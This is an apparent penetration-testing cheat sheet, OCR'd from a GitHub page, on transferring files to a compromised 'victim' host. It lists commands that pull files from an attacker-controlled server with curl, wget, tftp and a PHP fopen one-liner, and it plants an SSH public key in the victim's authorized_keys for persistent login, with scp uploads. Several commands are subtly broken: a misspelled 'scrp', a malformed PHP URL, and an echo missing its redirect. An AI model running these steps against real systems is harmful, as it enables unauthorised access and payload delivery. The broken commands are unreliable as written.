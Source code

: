 #### Python simple HTTPServer
***python -m SimpleHTTPServer [port]

##### curl
curl -O http://[my_server_ip:port]/fileName

##### wget
wget http://[my_server_ip:port]/fileName

##### tftp
tftp [my_server_ip]
tftp > get myFile
OR
tftp [my_server_ip] <<< "get file"

##### php
echo "<?php file_put_contents('nameOfFile', fopen('http://[my_server_ip:port/fileName', 'r')); ?>" file_one_server.php

#### SSH-SCP
***ssh key generation flow***
- ssh-keygen -t rsa -C "your@email.com"
- add *.pub public key to auhorized_keys on victim server
- echo "ssh-rsa ASD3NbN[..]vlldor..." > authorized_keys
- log in ssh -i private_key [name]@[victim_machine_ip] -p [port]

#### SCP
***copy file***
scp /your/file/path.ext [name]@[victim_server_ip]:/your/file/destination/path.ext

***copy dir***
scrp -r /your/dir/path [name]@[victim_server_ip]:/your/dir/destination/path

#### Netcat
# TODO
